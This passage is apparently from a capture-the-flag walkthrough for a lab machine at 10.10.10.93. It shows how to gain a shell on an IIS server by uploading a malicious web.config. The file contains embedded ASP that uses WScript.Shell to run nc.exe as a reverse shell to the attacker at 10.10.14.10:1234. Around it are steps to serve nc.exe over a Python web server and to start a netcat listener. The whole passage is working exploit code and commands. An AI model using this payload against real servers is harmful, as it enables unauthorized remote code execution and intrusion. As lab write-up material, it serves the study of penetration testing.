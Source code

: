 ```
```

Start a python server so that the web.config can fetch the file needed (nc.exe) :

```
python -m SimpleHTTPServer
```

Then go to : 

```
http://10.10.10.93/uploadedfiles/web.config
```

This execute the payload. On my python webserver, I see a connection who fetch nc.exe, nice ! Now upload the nc.exe launcher (second web.config from the repository) :

```
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />         
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<!-- ASP code comes here! It should not include HTML comment closing tag and double dashes!
<%
Response.write("-"&"->")
Set objShell = CreateObject("WScript.Shell")
objShell.Exec("C:\Windows\Temp\nc.exe -d 10.10.14.10 1234 -e c:\windows\system32\cmd.exe")
Response.write("<!-"&"-")
%>
-->
```

Start a nc listener :

```
nc -lvp 1234
```

Go to :

```
http://10.10.10.93/uploadedfiles/web.config
```
